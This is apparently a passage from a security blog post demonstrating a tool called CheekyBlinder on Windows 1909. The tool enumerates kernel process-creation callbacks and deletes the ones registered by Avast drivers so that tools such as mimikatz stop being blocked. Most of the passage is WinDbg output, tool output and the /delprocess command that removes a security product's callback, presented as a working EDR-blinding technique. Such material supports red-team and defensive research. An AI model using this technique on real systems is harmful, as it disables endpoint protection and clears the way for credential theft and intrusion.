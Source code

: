 Time to test it out!

Now, I know Avast isn't really an EDR, however it uses a kernel driver and registers process notification callbacks, and so is perfect for our demonstration.

In this setup, I'm using Win1909 x64 (OS Build 18363.959). Using Windbg, my kernel callbacks look as follows:

```
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff800`1dd13ea0  ffffdb83`5d85030f ffffdb83`5da605af
fffff800`1dd13eb0  ffffdb83`5df7c5df ffffdb83`5df7cdef
fffff800`1dd13ec0  ffffdb83`6068a1df ffffdb83`6068a92f
fffff800`1dd13ed0  ffffdb83`5df04bff ffffdb83`6068a9ef
fffff800`1dd13ee0  ffffdb83`6068addf ffffdb83`5df0237f
fffff800`1dd13ef0  ffffdb83`6322dc2f ffffdb83`652eecff
fffff800`1dd13f00  00000000`00000000 00000000`00000000
fffff800`1dd13f10  00000000`00000000 00000000`00000000
```

Running mimikatz causes Avast to kick into action, as expected:
[IMAGE OF MIMIKATZ BLOCKED]

Loading up our program, we get the following output:
```
[+] Windows Version 1909 Found
[+] Device object handle obtained: 0000000000000084
[+] PsSetCreateProcessNotifyRoutine address: FFFFF8001DF616B0
[+] Kernel base address: FFFFF8001D80E000
[+] PspCreateProcessNotifyRoutine: FFFFF8001DD13EA0
[+] Enumerating process creation callbacks
[+] fffff8001d92f690 [ntoskrnl.exe + 0x121690]
[+] fffff8001ebf7220 [cng.sys + 0x7220]
[+] fffff8001e75b420 [ksecdd.sys + 0x1b420]
[+] fffff8001fcfd9f0 [tcpip.sys + 0x1d9f0]
[+] fffff800203dd930 [iorate.sys + 0xd930]
[+] fffff800204a1720 [aswbuniv.sys + 0x1720]
[+] fffff80021aa9ec0 [vm3dmp.sys + 0x9ec0]
[+] fffff8001eb854d0 [CI.dll + 0x754d0]
[+] fffff80020af25ac [aswSP.sys + 0x325ac]
[+] fffff80021276aa0 [dxgkrnl.sys + 0x6aa0]
[+] fffff800236e3cf0 [peauth.sys + 0x43cf0]
[+] fffff80021836ed0 [aswArPot.sys + 0x6ed0]
```
A quick google search shows us that aswArPot.sys, aswSP.sys and aswbuniv.sys are Avast drivers, so we now know that at least for process notifications, these drivers might be blocking our malicious tools.

We unload them using our little program (the output has been made a bit more verbose than it probably should be):

```
PS C:\Dev\CheekyBlinder\x64\Release> .\CheekyBlinder.exe /delprocess fffff800204a1720
[+] Windows Version 1909 Found
[+] Removing process creation callback: FFFFF800204A1720
[+] Device object handle obtained: 0000000000000084
[+] PsSetCreateProcessNotifyRoutine address: FFFFF8001DF616B0
[+] Kernel base address: FFFFF8001D80E000
[+] PspCreateProcessNotifyRoutine: FFFFF8001DD13EA0
[+] Enumerating process creation callbacks
[+] fffff8001d92f690 [ntoskrnl.exe + 0x121690]
[+] fffff8001ebf7220 [cng.sys + 0x7220]
[+] fffff8001e75b420 [ksecdd.sys + 0x1b420]
[+] fffff8001fcfd9f0 [tcpip.sys + 0x1d9f0]
[+] fffff800203dd930 [iorate.sys + 0xd930]
[+] fffff800204a1720 [aswbuniv.sys + 0x1720]
Removing callback to FFFFF800204A1720 at address FFFFF8001DD13EC8
[+] fffff80021aa9ec0 [vm3dmp.sys + 0x9ec0]
```
